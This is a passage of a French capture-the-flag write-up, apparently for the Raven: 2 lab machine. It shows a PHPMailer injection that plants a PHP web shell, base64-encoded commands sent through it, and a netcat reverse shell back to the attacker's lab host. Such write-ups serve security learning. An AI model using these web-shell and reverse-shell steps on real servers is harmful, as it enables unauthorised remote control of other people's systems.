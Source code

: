 Et hop ! On obtient un nouveau fichier dans le répertoire ```/vendor```.

![Affichage de l'image INDEX-Vendor.png](images/INDEX-Vendor.png)

Le fichier nouvellement créé ressemble effectivement à un fichier de log. À un détail près : si on appelle ce fichier de log en renseignant correctement le paramètre ```cmd``` dans l'URL, il est possible d'exécuter du code sur le serveur. Exemple avec la commande ```id``` qui équivaut à ```aWQ=``` en [base64](https://fr.wikipedia.org/wiki/Base64).

```console
root@blinils:~# curl -s http://192.168.56.102/vendor/blinils.php?cmd=aWQ= | head -n 15
01211 >>> some"@email.com... Unbalanced '"'
01211 <<< To: Hacker <admin@vulnerable.com>
01211 <<< Subject: Message from name
01211 <<< X-PHP-Originating-Script: 0:class.phpmailer.php
01211 <<< Date: Fri, 16 Nov 2018 20:20:27 +1100
01211 <<< From: Vulnerable Server <"attacker\" -oQ/tmp/ -X/var/www/html/vendor/blinils.php some"@email.com>
01211 <<< Message-ID: <0231383ec9ede649a79d84a0800f8361@192.168.56.102>
01211 <<< X-Mailer: PHPMailer 5.2.17 (https://github.com/PHPMailer/PHPMailer)
01211 <<< MIME-Version: 1.0
01211 <<< Content-Type: text/plain; charset=iso-8859-1
01211 <<< 
01211 <<< uid=33(www-data) gid=33(www-data) groups=33(www-data)
|dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSk=|01211 <<< 
01211 <<< [EOF]
01211 === CONNECT [127.0.0.1]
```

![Affichage de l'image INDEX-Backdoor.png](images/INDEX-Backdoor.png)

Les commandes sont donc exécutées en tant que ```uid=33(www-data) gid=33(www-data) groups=33(www-data)``` c'est parfait. À présent, nous allons mettre en place [un reverse shell à l'aide de netcat](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/#Netcat) : le bout de code ```nc -e /bin/bash 192.168.56.101 12345``` va créer une connexion sur le port 12345 entre le serveur Raven: 2 (192.168.56.102) et notre propre machine (192.168.56.101). Pour cela, il faut transmettre cette ligne de commande via le paramètre ```cmd```, et en base64 qui plus est.

```console
root@blinils:~# echo -n "nc -e /bin/bash 192.168.56.101 12345" | base64
bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNTYuMTAxIDEyMzQ1

root@blinils:~# curl http://192.168.56.102/vendor/blinils.php?cmd=bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNTYuMTAxIDEyMzQ1
^C
```

En parallèle, la commande ```nc -nlvp 12345``` a été lancé dans un autre terminal... et c'est le shell !

```console
root@blinils:~# nc -nlvp 12345
listening on [any] 12345 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 36182

python -c 'import pty; pty.spawn("/bin/bash")'
www-data@Raven:/var/www/html/vendor$ 

www-data@Raven:/var/www/html/vendor$ id; uname -a;
id; uname -a;
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux Raven 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64 GNU/Linux

www-data@Raven:/var/www/html/vendor$ 
```
